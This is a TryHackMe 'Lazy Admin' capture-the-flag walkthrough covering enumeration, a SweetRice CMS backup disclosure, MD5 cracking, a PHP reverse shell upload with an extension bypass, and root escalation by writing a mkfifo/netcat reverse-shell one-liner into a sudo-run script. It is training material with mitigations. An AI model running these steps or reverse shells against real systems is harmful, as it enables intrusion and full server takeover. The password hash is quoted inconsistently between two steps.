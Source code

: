 # 🟩Lazy Admin – Try Hack Me (THM) Walkthrough Report

**Prepared by:** Nishanth Antony  
**Date:** August 27, 2025  
**Difficulty:** Easy  
**Category:** Web Exploitation & Privilege Escalation  
**Platform:** TryHackMe (THM)

---

## Part 1: User Flag

### 1. Reconnaissance & Initial Scanning

**Objective:** Identify all open ports and services running on the target system.

- **Command Used:**
  ```bash
  nmap -Pn -sC -sV -oN lazyadmin.nmap <target_ip>
  ```
- **Key Output:**
  ```bash
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.2p2 (Ubuntu)
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  ```
- **Analysis:** SSH and HTTP are available; the web server runs default Apache.

### 2. Web Enumeration

- Checked http://<target_ip>:80 in a browser:
  - Found Ubuntu Apache2 default page (no obvious custom content).
- **Used Gobuster for hidden directories:**
  ```bash
  gobuster dir -u http://<target_ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  ```
  - Discovered `/content` (redirect); `/server-status` (403 forbidden).

### 3. Deeper Enumeration of `/content` Directory

```bash
gobuster dir -u http://<target_ip>/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
- Found several subdirectories: `/images`, `/js`, `/inc`, `/as`, `/attachment`, `/_themes` (all redirect).
- Some scan errors (timeouts) indicated more content may exist.

### 4. Identifying the CMS

- Navigated to `/content` and found **SweetRice CMS** (vulnerable CMS).

### 5. Vulnerability Research

- Searched Exploit-DB for "SweetRice" vulnerabilities.
- Found **SweetRice 1.5.1 Backup Disclosure** (EDB-ID: 40718):
  - Direct access to backups at `/inc/mysql_backup/` and full site download via `/SweetRice-transfer.zip`.

### 6. Exploiting Backup Disclosure

- **Navigated:** 
  ```
  http://<target_ip>/content/inc/mysql_backup
  ```
- **Successfully found:** `mysql_backup_20191129023059-1.5.1.sql`.

- **Downloaded SQL backup:**
  ```bash
  wget http://<target_ip>/content/inc/mysql_backup/mysql_backup_20191129023059-1.5.1.sql
  ```
- **Inspected backup:**
  ```bash
  cat mysql_backup_20191129023059-1.5.1.sql
  ```
  - Found an MD5 hash for the manager/admin password:
    ```
    "42f749ade7f9e195bf475f37a44cafb"
    ```

### 7. Crack the Manager Password

- **Used CrackStation:**  
    ```
    Input hash: 42f749ade7f9e195bf475f37a44cafcb
    Output: Password123
    ```
- **Obtained credentials:**  
    - Username: `manager`
    - Password: `Password123`

### 8. Logging into SweetRice Admin Panel

- Navigated to the admin login page at `/content/as`
- Used credentials `"manager:Password123"` to access the admin area.

### 9. Uploading a PHP Reverse Shell

- **Downloaded reverse shell script:**  
    ```bash
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
    ```
- **Modified reverse shell:**
    - Set `$ip` to attacker's IP
    - Set `$port` to listening port
    - Renamed for bypass:
      ```bash
      mv php-reverse-shell.php shell.phtml
      ```
- **Uploaded shell in the admin panel "Media Center".**

- **Started netcat listener:**
    ```bash
    nc -lvnp <attack_port>
    ```
- **Triggered the uploaded shell by visiting its URL.**

### 10. Getting an Interactive Shell & Finding the User Flag

- **Upgraded shell:**
    ```python
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
- **Navigated:**
    - `cd /home`
    - `ls`
    - Found `itguy` user directory.

- **User Flag:**
    ```python
    cat /home/itguy/user.txt
    ```
    - **Output:** `THM{63e5bce9271952aad1113b6f1ac28a07}`

---

## Part 2: Root Flag (Privilege Escalation)

### 11. Sudo Privileges Enumeration

- **Checked sudo rights:**
    ```bash
    sudo -l
    ```
    - **Finding:** The user `www-data` can execute `/usr/bin/perl /home/itguy/backup.pl` as root.

### 12. Analyze Perl Script for Escalation Path

- **Read script:**  
    ```bash
    cat /home/itguy/backup.pl
    ```
    - The Perl script executes `/etc/copy.sh`.

- **Inspect `/etc/copy.sh`:**
    ```bash
    cat /etc/copy.sh
    ```
    - The script contains a reverse shell one-liner pointing to a different attacker IP.

### 13. Overwrite `copy.sh` with Own Reverse Shell

- **Write new shell command:**
    ```bash
    echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <attacker_ip> <attacker_port> > /tmp/f" > /etc/copy.sh
    ```

- **Start listener on attacker's machine:**
    ```bash
    nc -nvlp <attacker_port>
    ```

- **Trigger escalation:**
    ```bash
    sudo /usr/bin/perl /home/itguy/backup.pl
    ```
    - Reverse root shell obtained.

### 14. Retrieve the Root Flag

- **Get root flag:**
    ```bash
    ls /root
    cat /root/root.txt
    ```
    - **Output:** *(example)* `THM{rootflagcontents}`

---

## Mitigation Recommendations

- **Update/Remove vulnerable CMS software.**  
- **Eliminate backup disclosure:** Store backups outside web directories with proper access controls.
- **Use strong, salted hashes for passwords; avoid MD5.**
- **Restrict admin panel file uploads and validate file types.**
- **Review and restrict sudo command configurations, especially for scripts and interpreters.**
- **Sanitize and log all script interactions and privileged command executions.**

---

## Lessons Learned

- Outdated file management and poor backup hygiene expose credentials and sensitive files.
- Weak password hashing allows trivial brute-force attacks.
- Improper server-side script chaining gives easy privilege escalation routes.
- Web upload restrictions can often be bypassed using alternate file extensions.

---

## Skills Practiced

- Enumeration: nmap, gobuster
- Web Exploitation: directory fuzzing, file disclosure, password cracking
- Command Execution: reverse shell upload/exploit
- Privilege Escalation: abusing root-allowed scripts and overwriting vulnerable bash scripts
```
